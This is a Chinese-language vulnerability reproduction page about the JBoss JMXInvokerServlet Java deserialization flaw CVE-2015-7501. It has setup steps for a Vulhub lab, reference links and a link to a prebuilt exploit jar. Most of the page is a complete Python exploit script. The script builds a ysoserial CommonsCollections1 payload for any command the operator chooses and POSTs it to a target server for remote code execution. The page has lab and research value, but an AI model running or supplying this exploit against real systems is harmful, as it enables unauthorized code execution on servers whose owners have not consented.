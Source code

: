 # JBoss JMXInvokerServlet 反序列化漏洞 CVE-2015-7501

## 漏洞描述

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

参考文档：

- https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- https://www.seebug.org/vuldb/ssvid-89723
- http://www.freebuf.com/sectool/88908.html
- https://paper.seebug.org/312/

## 环境搭建

Vulhub启动漏洞环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

![image-20220224144324655](./images/202202241443726.png)

## 漏洞复现

JBoss在处理`/invoker/JMXInvokerServlet`请求的时候读取了对象，所以我们直接将[ysoserial](https://github.com/frohoff/ysoserial)生成好的POC附在POST Body中发送即可。整个过程可参考JBoss 5.x/6.x 反序列化漏洞 CVE-2017-12149。

网上已经有很多EXP了，比如[DeserializeExploit.jar](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)，直接用该工具执行命令、上传文件即可。

## 漏洞EXP

```python
#! /usr/bin/env python2

# Jboss Java Deserialization RCE (CVE-2015-7501)
# Made with <3 by @byt3bl33d3r

from __future__ import print_function
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

import argparse
import sys, os
#from binascii import hexlify, unhexlify
from subprocess import check_output

ysoserial_default_paths = ['./ysoserial.jar', '../ysoserial.jar']
ysoserial_path = None

parser = argparse.ArgumentParser()
parser.add_argument('target', type=str, help='Target IP')
parser.add_argument('command', type=str, help='Command to run on target')
parser.add_argument('--proto', choices={'http', 'https'}, default='http', help='Send exploit over http or https (default: http)')
parser.add_argument('--ysoserial-path', metavar='PATH', type=str, help='Path to ysoserial JAR (default: tries current and previous directory)')

if len(sys.argv) < 2:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

if not args.ysoserial_path:
    for path in ysoserial_default_paths:
        if os.path.exists(path):
            ysoserial_path = path
else:
    if os.path.exists(args.ysoserial_path):
        ysoserial_path = args.ysoserial_path

if ysoserial_path is None:
    print('[-] Could not find ysoserial JAR file')
    sys.exit(1)

if len(args.target.split(":")) != 2:
    print('[-] Target must be in format IP:PORT')
    sys.exit(1)

if not args.command:
    print('[-] You must specify a command to run')
    sys.exit(1)

ip, port = args.target.split(':')

print('[*] Target IP: {}'.format(ip))
print('[*] Target PORT: {}'.format(port))

gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections1', args.command])

r = requests.post('{}://{}:{}/invoker/JMXInvokerServlet'.format(args.proto, ip, port), verify=False, data=gadget)

if r.status_code == 200:
    print('[+] Command executed successfully')

```

